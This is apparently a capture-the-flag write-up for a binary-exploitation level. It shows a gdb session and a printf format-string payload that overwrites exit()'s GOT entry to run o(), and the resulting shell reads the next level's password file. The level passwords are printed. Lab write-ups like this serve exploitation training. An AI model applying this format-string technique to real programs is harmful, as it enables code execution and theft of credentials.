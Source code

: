 # Level 5
*password : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a*

## Analyze
```
$ scp -P 4242 level5@192.168.56.108:level5 .
```

## Printf exploit
objective : use printf to execute o()
- replace the return address of exit() by o()

```
$ gdb level5
(gdb) info funct o
...
0x080484a4  o
...
```
- get exit() return address
```
(gdb) disas n
...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

`o()` address : 0x080484a4\
`exit()` : 0x08049838


- convert o() address to decimal : 134513828 (too long)\
- split the address into 2 int :
   - 804 = 2052
   - 84a4 = 33956

```
$ python -c 'print "\x38\x98\x04\x08 %p %p %p %p"' | ./level5
8 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049838
```

address of `exit()` at parameter 4th.

```
$ python -c 'print "\x38\x98\x04\x08" + "%2048x" + "%4$hn" + "%31904x"+ "%4$hn"' > /tmp/level5
$ cat /tmp/level5 - | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
